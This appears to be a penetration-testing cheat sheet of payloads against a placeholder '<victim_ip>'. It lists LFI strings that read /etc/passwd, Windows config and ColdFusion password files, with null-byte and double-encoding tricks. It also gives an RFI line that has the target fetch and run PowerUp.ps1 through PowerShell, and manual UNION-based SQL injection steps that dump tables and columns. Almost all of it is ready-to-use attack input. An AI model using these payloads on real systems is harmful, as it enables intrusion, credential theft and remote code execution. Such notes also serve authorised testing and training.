 #nikto: 

```bash
nikto --host=http://<victim_ip>
```
******************************************************************************************************************************


### ssh 

1. if algorithims error comes 

ssh -oKexAlgorithms=diffie-hellman-group1-sha1 -p <port> user@<ip>


### LFI

#for Linux;
```bash
http://<victim_ip>test.php?page=../../../../etc/passwd                    #basic
http://<victim_ip>test.php?page=../../../etc/passwd%00                      #null byte
http://<victim_ip>test.php?page=%252e%252e%252fetc%252fpasswd            #double encoding

http://<ip>/?pagename=php://filter/convert.base64-encode/resource=login  #php filter
```
  

for Windows;
```bash
http://<victim_ip>/test.php?page=../../../../../WINDOWS/win.ini
http://<victim_ip>/test.php?page=../../../../../xampp/apache/bin/php.ini

http://<ip>/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en 

http://192.168.1.65/?page=php://filter/convert.base64-encode/resource=index  
```
### RFI 

  ```
  http://<ip>/revshell.php?fexec=echo IEX(New-Object Net.WebClient).downloadString('http://<ip>/PowerUp.ps1') | powershell -noprofile -   
```


******************************************************************************************************************************

# SQL Injection (Manual Steps)
```
#Victim Address;
 http://<victim_ip>/test.php?id=3'

#Find the number of columns;
 http://<victim_ip>/test.php?id=3 order by 5

#Find space to output db
 http://<victim_ip>/test.php?id=3 union select 1,2,3,4,5

#Get db-username and db-version information from the database;
 http://<victim_ip>/test.php?id=3 union select 1,2,version(),4,5
 http://<victim_ip>/test.php?id=3 union select 1,2,user(),4,5

#Get all tables;
 http://<victim_ip>/test.php?id=3 union select 1,2,table_name,4,5 from information_schema.tables

#Get all columns from a specific table;
 http://<victim_ip>/test.php?id=3 union select 1,2, column_name 4,5 from information_schema.columns where table_name='wpusers'
```